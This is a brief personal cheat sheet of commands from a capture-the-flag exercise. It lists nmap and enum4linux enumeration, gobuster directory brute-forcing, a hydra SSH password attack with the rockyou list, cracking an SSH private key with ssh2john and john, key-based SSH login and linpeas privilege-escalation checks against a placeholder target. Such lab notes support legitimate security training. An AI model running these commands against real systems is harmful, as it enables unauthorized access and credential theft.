 # NOTE: This isn't really a writeup but a note to keep track of commands used for future purposes

# List of commands used in this CTF:
nmap -sV -sC -Pn webapp_basic.txt <target ip address>  
enum4linux -a <target ip address>  
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://<target ip address>  
hydra -l jan -P /usr/share/wordlists/rockyou.txt <target ip address> ssh  
python3 -m http.server 8000  
/Tools/Password Attacks/john/ssh2john.py >> crack  
john crack --wordlist=/usr/share/wordlists/rockyou.txt  
ssh -i id_rsa kay@<target ip address>  
ssh user@<target ip address>  

## Extra linux commands
chmod +x linpeas.sh
chmod 600 id_rsa


### LINPEAS https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS  
